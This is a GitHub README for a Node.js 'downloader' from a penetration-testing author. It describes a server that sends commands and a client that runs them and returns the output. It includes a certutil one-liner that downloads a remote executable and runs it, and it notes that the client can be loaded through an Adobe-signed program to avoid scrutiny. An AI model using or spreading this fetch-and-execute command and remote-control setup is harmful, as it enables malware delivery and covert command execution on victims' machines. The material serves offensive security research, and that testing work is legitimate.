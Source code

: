 # Nodejs-Downloader
An example of a downloader written in NodeJS.

Author:3gstudent

#### Usage:

1. Download the NodeJS:

https://nodejs.org/en/download/

You just need node.exe in the file.

2. Set the command sent to the client:

Edit the Server.js

eg.

`var command = 'certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\\a.exe&&c:\\a.exe';`

3. Start the server

```
node.exe Server.js
```

When you use a browser to access it, you will return 404.

4. Start the client

```
node.exe Client.js
```

It will connect to the server and get the command, then execute the command and send the result again.

Client.js can be loaded by a program with a digital signature of Adobe Systems Incorporated.

![Alt text](https://raw.githubusercontent.com/3gstudent/NodeJS-Downloader/blob/master/1.png)

Reference:

https://bbs.pediy.com/thread-249573.htm


More details:

《渗透测试中的Node.js》[Coming soon]

